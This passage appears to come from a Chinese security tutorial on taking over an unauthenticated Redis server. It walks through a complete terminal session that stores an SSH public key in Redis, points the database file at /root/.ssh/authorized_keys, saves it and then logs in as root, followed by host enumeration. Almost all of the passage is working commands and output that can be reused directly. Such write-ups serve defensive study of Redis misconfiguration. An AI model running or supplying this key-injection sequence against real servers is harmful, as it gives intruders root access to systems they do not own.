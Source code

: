 这里讲解下，这里设定了crackit的键值为公钥，并通过redis命令变更Redis DB 文件及存放地点为默认root用户SSH key存放文件，并将键值重定向追加到远程文件authorized_keys的末尾，也就上传了公钥。

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

```txt
$ ssh -i  id_rsa root@10.115.4.17
```

可远程利用自己的私钥登录该服务器。

```txt
root@kali:~# cd /root/.ssh
root@kali:~/.ssh# ls
id_rsa  id_rsa.pub
root@kali:~/.ssh# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
root@kali:~/.ssh# ls
foo.txt  id_rsa  id_rsa.pub
root@kali:~/.ssh# cat foo.txt | redis-cli -h 10.115.4.17 -x set crackit
OK
root@kali:~/.ssh# redis-cli -h 10.115.4.17
10.115.4.17:6379> config set dir /root/.ssh/
OK
10.115.4.17:6379> config get dir
1) "dir"
2) "/root/.ssh"
10.115.4.17:6379> config set dbfilename "authorized_keys"
OK
10.115.4.17:6379> save
OK
10.115.4.17:6379> exit
root@kali:~/.ssh# ssh -i  id_rsa root@10.115.4.17
The authenticity of host '10.115.4.17 (10.115.4.17)' can't be established.
RSA key fingerprint is SHA256:oOzYtHXDP/BZdVLi4szrG2d0rbGC9W/KA2Q2biWuRzo.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.115.4.17' (RSA) to the list of known hosts.
Last login: Thu Nov  9 14:40:28 2017 from 10.58.60.177
[root@VM-10-115-4-17 ~]# whoami
root
[root@VM-10-115-4-17 ~]# pwd
/root
[root@VM-10-115-4-17 ~]# ifconfig
eth0      Link encap:Ethernet  HWaddr 52:54:00:73:04:11  
          inet addr:10.115.4.17  Bcast:10.115.4.255  Mask:255.255.255.0
          inet6 addr: fe80::5054:ff:fe73:411/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:85585598 errors:0 dropped:0 overruns:0 frame:0
          TX packets:49952537 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:25834029589 (24.0 GiB)  TX bytes:15549400182 (14.4 GiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:16492765 errors:0 dropped:0 overruns:0 frame:0
          TX packets:16492765 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:10621565540 (9.8 GiB)  TX bytes:10621565540 (9.8 GiB)

[root@VM-10-115-4-17 ~]# uname -a
Linux VM-10-115-4-17 2.6.32-642.gome.el6.x86_64 #1 SMP Thu Dec 1 16:54:42 CST 2016 x86_64 x86_64 x86_64 GNU/Linux
[root@VM-10-115-4-17 ~]# 
```


[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2018-03-16/4
[3]: http://www.alloyteam.com/2017/07/12910/